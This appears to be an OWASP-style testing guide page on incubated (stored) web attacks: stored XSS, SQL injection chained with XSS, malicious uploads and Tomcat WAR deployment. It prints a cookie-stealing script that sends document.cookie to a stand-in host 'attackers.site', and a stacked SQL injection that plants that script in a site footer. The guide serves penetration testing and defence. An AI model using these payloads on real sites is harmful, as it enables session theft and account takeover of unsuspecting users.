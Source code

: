 Summary
-------

Also often refered to as persistent attacks, incubated testing is a complex testing method that needs more than one data validation vulnerability to work. Incubated vulnerabilities are typically used to conduct “watering hole” attacks against users of legitimate web applications.

Incubated vulnerabilities have the following characteristics:

-   The attack vector needs to be persisted in the first place, it needs to be stored in the persistence layer, and this would only occur if weak data validation was present or the data arrived into the system via another channel such as an admin console or directly via a backend batch process.
-   Secondly, once the attack vector was “recalled” the vector would need to be executed successfully. For example, an incubated XSS attack would require weak output validation so the script would be delivered to the client in its executable form.

Exploitation of some vulnerabilities, or even functional features of a web application, will allow an attacker to plant a piece of data that will later be retrieved by an unsuspecting user or other component of the system, exploiting some vulnerability there.

In a penetration test, **incubated attacks** can be used to assess the criticality of certain bugs, using the particular security issue found to build a client-side based attack that usually will be used to target a large number of victims at the same time (i.e. all users browsing the site).

This type of asynchronous attack covers a great spectrum of attack vectors, among them the following:

-   File upload components in a web application, allowing the attacker to upload corrupted media files (jpg images exploiting CVE-2004-0200, png images exploiting CVE-2004-0597, executable files, site pages with active component, etc.)

<!-- -->

-   Cross-site scripting issues in public forums posts (see [Testing for Stored Cross\_site scripting (OTG-INPVAL-002)](Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002) "wikilink") for additional details). An attacker could potentially store malicious scripts or code in a repository in the backend of the web-application (e.g., a database) so that this script/code gets executed by one of the users (end users, administrators, etc). The archetypical incubated attack is exemplified by using a cross-site scripting vulnerability in a user forum, bulletin board, or blog in order to inject some JavaScript code at the vulnerable page, and will be eventually rendered and executed at the site user's browser --using the trust level of the original (vulnerable) site at the user's browser.

<!-- -->

-   SQL/XPATH Injection allowing the attacker to upload content to a database, which will be later retrieved as part of the active content in a web page. For example, if the attacker can post arbitrary JavaScript in a bulletin board so that it gets executed by users, then he might take control of their browsers (e.g., [XSS-proxy](http://sourceforge.net/projects/xss-proxy)).

<!-- -->

-   Misconfigured servers allowing installation of Java packages or similar web site components (i.e. Tomcat, or web hosting consoles such as Plesk, CPanel, Helm, etc.)

How to Test
-----------

### Black Box testing

#### File Upload Example

Verify the content type allowed to upload to the web application and the resultant URL for the uploaded file. Upload a file that will exploit a component in the local user workstation when viewed or downloaded by the user. Send your victim an email or other kind of alert in order to lead him/her to browse the page. The expected result is the exploit will be triggered when the user browses the resultant page or downloads and executes the file from the trusted site.

#### XSS Example on a Bulletin Board

1\. Introduce *JavaScript* code as the value for the vulnerable field, for instance:

`<script>document.write('<img src="http://attackers.site/cv.jpg?'+document.cookie+'">')</script>`\
`  `

2\. Direct users to browse the vulnerable page or wait for the users to browse it. Have a "listener" at *attackers.site* host listening for all incoming connections.

3\. When users browse the vulnerable page, a request containing their cookie (*document.cookie* is included as part of the requested URL) will be sent to the *attackers.site* host, such as the following:

` - GET /cv.jpg?SignOn=COOKIEVALUE1;%20ASPSESSIONID=ROGUEIDVALUE;`\
`     %20JSESSIONID=ADIFFERENTVALUE:-1;%20ExpirePage=https://vulnerable.site/site/;`\
`     TOKEN=28_Sep_2006_21:46:36_GMT HTTP/1.1`

4\. Use cookies obtained to impersonate users at the vulnerable site.

#### SQL Injection Example

Usually, this set of examples leverages XSS attacks by exploiting a SQL-injection vulnerability. The first thing to test is whether the target site has a SQL injection vulnerability. This is described in Section 4.2 [Testing for SQL Injection](Testing_for_SQL_Injection_(OTG-INPVAL-006) "wikilink"). For each SQL-injection vulnerability, there is an underlying set of constraints describing the kind of queries that the attacker/pen-tester is allowed to do.

The tester then has to match the XSS attacks he has devised with the entries that he is allowed to insert.

1\. In a similar fashion as in the previous XSS example, use a web page field vulnerable to SQL injection issues to change a value in the database that would be used by the application as input to be shown at the site without proper filtering (this would be a combination of an SQL injection and a XSS issue). For instance, let's suppose there is a *footer* table at the database with all footers for the web site pages, including a *notice* field with the legal notice that appears at the bottom of each web page. You could use the following query to inject JavaScript code to the *notice* field at the *footer* table in the database.

` SELECT field1, field2, field3`\
`  FROM table_x`\
`  WHERE field2 = 'x';`\
`     UPDATE footer`\
`     SET notice = 'Copyright 1999-2030%20`\
`         <script>document.write(\'<img src="http://attackers.site/cv.jpg?\'+document.cookie+\'">\')</script>'`\
`     WHERE notice = 'Copyright 1999-2030';`

2\. Now, each user browsing the site will silently send his cookies to the *attackers.site* (steps b.2 to b.4).

#### Misconfigured Server

Some web servers present an administration interface that may allow an attacker to upload active components of her choice to the site. This could be the case with an Apache Tomcat server that doesn’t enforce strong credentials to access its Web Application Manager (or if the pen testers have been able to obtain valid credentials for the administration module by other means).

In this case, a WAR file can be uploaded and a new web application deployed at the site, which will not only allow the pen tester to execute code of her choice locally at the server, but also to plant an application at the trusted site, which the site regular users can then access (most probably with a higher degree of trust than when accessing a different site).

As should also be obvious, the ability to change web page contents at the server, via any vulnerabilities that may be exploitable at the host which will give the attacker webroot write permissions, will also be useful towards planting such an incubated attack on the web server pages (actually, this is a known infection-spread method for some web server worms).

### Gray Box testing

Gray/white testing techniques will be the same as previously discussed.

-   Examining input validation is key in mitigating against this vulnerability. If other systems in the enterprise use the same persistence layer they may have weak input validation and the data may be persisited via a “back door”.

<!-- -->

-   To combat the “back door” issue for client side attacks, output validation must also be employed so tainted data shall be encoded prior to displaying to the client, and hence not execute.

<!-- -->

-   See the [Data Validation](Data_Validation_%28Code_Review%29#Data_validation_strategy "wikilink") section of the Code review guide.

Tools
-----

-   XSS-proxy - <http://sourceforge.net/projects/xss-proxy>
-   Paros - <http://www.parosproxy.org/index.shtml>
-   Burp Suite - <http://portswigger.net/burp/proxy.html>
-   Metasploit - <http://www.metasploit.com/>

References
----------

Most of the references from the Cross-site scripting section are valid. As explained above, incubated attacks are executed when combining exploits such as XSS or SQL-injection attacks.

**Advisories**\

-   CERT(R) Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests - <http://www.cert.org/advisories/CA-2000-02.html>
-   Blackboard Academic Suite 6.2.23 +/-: Persistent cross-site scripting vulnerability - <http://lists.grok.org.uk/pipermail/full-disclosure/2006-July/048059.html>

**Whitepapers**\

-   Web Application Security Consortium “Threat Classification, Cross-site scripting” - <http://www.webappsec.org/projects/threat/classes/cross-site_scripting.shtml>

